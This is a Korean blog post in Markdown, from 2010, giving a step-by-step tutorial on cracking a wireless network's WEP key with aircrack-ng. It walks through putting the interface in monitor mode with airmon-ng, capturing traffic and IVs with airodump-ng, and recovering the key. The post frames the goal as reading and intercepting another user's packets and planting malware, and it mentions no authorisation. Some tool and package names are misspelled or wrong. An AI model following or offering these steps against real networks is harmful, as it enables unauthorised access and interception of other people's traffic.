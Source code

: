 ```yaml
---
layout: post
title: WEB 무선랙 크랙하기"
subtitle: "aricrack"
date: 2010-09-10 10:57:00+0900
categories: Linux
tags: Linux Utility Aricrack
mathjax: true
---
```


무선랜의 암호화 방식중 WEP의 암호키를 알아내는 방법입니다.
WEP의 크랙에 성공하게 되면 해당 사용자가 보내는 모든 패킷을 볼 수 있고, 이를 가로 채서 악성코드를 심을수도 있습니다.

필요한 툴들을 설치하기위한 저장소를 수정하겠습니다.  
```
%sudo cp /etc/apt/sources.list /etc/apt/sources.list_back
```
기존의 저장소를 백업해둡니다.  

```
#sudo gedit /etc/apt/sources.list
```
저장소를 열어 아래의 내용을 추가합니다.(카이스트 저장소 추가)  
> deb http://kr.archive.ubuntu.com/ubuntu/ maverick-security multiverse  
deb-src http://kr.archive.ubuntu.com/ubuntu/ maverick-security multiverse  

```
#sudo apt-get update
```

저장소를 업데이트한후 재부팅해줍니다.


필요한 툴들을 설치합니다.
```
%sudo apt-get install aricrack-ng
%sudo apt-get install airmon-ng
%sudo apt-get install airodump-ng
%sudo apt-get install aircrack-ng
%sudo apt-get install kismet
```

먼저 iwcofing 명령어를 통해 현재 설치되어있는 네트워크 인터페이스의 정보를 확인합니다.
![img](/resource/20100910/20100910-img-1.png)  

현재 제 컴퓨터에 사용하고 있는 무선랜 인터페이스의 이름은 wlan0입니다.  
이 무선랜 인터페이스를 모니터 모드로 바꿔주어야 합니다.  
```
$sudo airmon-ng start [인터페이스 이름]
```

![img](/resource/20100910/20100910-img-2.png)  

성공적으로 이루어지면 mon0이라는 모니터 모드로 동작하고 있는 새로운 인터페이스가 추가되어있습니다.  
![img](/resource/20100910/20100910-img-3.png)  

그럼 이제 airodump-ng으로 실시간으로 지나가는 모든 패킷을 캡처링을 할 수 있습니다.  

```
%sudo airodump-ng mon0 -w dump
```

으로 lv데이터를 모아서 dump 파일로 만듭니다.  
lv데이터는 AP와 수신할때 앞에 24비트의 정보를 포함하고 있는 데이터를 말합니다.  
![img](/resource/20100910/20100910-img-4.png)  

충분히 많은  IVs를 모았을때
```
$sudo aircrack-ng dump-01.cap
```  
를 이용하여 암호를 알아냅니다.

![img](/resource/20100910/20100910-img-5.png)  

[참고]http://www.askstudent.com/hacking/how-to-crack-a-wep-key-using-ubuntu/